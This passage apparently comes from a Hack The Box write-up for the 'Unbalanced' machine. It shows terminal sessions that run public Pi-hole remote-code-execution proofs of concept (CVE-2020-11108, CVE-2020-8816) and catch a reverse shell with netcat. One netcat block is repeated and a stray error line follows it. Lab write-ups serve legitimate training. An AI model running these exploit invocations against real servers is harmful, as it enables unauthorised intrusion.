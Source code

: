 ```text
┌──(zweilos㉿kali)-[~/htb/unbalanced]
└─$ sudo python3 ./root-cve-2020-11108-rce.py prdbr29htat9e3p10o7c7le7h1 http://127.0.0.1 10.10.15.88 12345     
[+] Put Root Stager Success
[+] Received First Callback
[+] Received Second Callback
[+] Uploading Root Payload
[+] Put Shell Stager Success
[+] Received Third Callback
[+] Received Fourth Callback
[+] Uploading Shell Payload
[+] Triggering Exploit
```

running the POC with all of the proper inputs stil did not work. I went looking for another exploit and found [https://github.com/AndreyRainchik/CVE-2020-8816](https://github.com/AndreyRainchik/CVE-2020-8816)

```text
┌──(zweilos㉿kali)-[~/htb/unbalanced]
└─$ python3 ./CVE-2020-8816.py http://127.0.0.1:1337 admin 10.10.15.88 12345                        2 ⨯
Attempting to verify if Pi-hole version is vulnerable
Logging in...
Login succeeded
Grabbing CSRF token
Attempting to read $PATH
Pihole is vulnerable and served's $PATH allows PHP
Sending payload
```

the payload was away...

```text
┌──(zweilos㉿kali)-[~]
└─$ nc -lvnp 12345       
listening on [any] 12345 ...
id  
connect to [10.10.15.88] from (UNKNOWN) [10.10.10.200] 40152
/bin/sh: 0: can't access tty; job control turned off
$ uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

and I got a shell...as `www-data`!?

### Getting a shell

```text
┌──(zweilos㉿kali)-[~]
└─$ nc -lvnp 12345       
listening on [any] 12345 ...
id  
connect to [10.10.15.88] from (UNKNOWN) [10.10.10.200] 40152
/bin/sh: 0: can't access tty; job control turned off
$ uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


[ERROR]: Unable to parse results from <i>queryads.php</i>: <code>Unhandled error message (<code>Invalid domain!</code>)</code>